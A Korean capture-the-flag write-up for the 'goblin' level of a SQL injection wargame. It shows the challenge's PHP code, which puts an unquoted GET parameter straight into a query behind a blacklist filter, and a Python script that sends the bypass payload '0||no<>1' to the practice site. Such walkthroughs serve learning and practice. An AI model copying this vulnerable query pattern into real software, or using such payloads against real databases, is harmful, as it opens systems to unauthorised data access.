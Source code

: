## GOBLIN Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~");  
if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~");  
$query = "select id from prob_goblin where id='guest' and no={$_GET[no]}";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id']) echo "<h2>Hello {$result[id]}</h2>";  
if($result['id'] == 'admin') solve("goblin");  
highlight_file(__FILE__);  
?>
```
### Exploit 코드
``` python
import requests

url = 'http://los.rubiya.kr/goblin_e5afb87a6716708e3af46a849517afdc.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {}
params['no'] = "0||no<>1"

res = requests.get(url, cookies = cookies, params = params)

if "Clear" in res.text :
    print("[♪] GOBLIN Clear!")
```
이번 문제는 get으로 no를 받는다.  
no=1을 주면 **Hello guest** 가 뜬다.
이를 통해 guest가 1이라는 것을 알 수 있었고, no가 1이 아니면 풀릴 듯 했다.

no에 **0||no<>1**를 넣어주면 쿼리는 다음과 같이 된다.
``` php
select id from prob_goblin where id='guest' and no=0||no<>1
```
mysql에서 **<>** 기호는 같지 않다는 의미이기 때문에 no!=1과 같은 의미가 된다.  
**$result['id']** 에 guest가 아닌 값, admin이 있기 때문에 문제가 해결된다.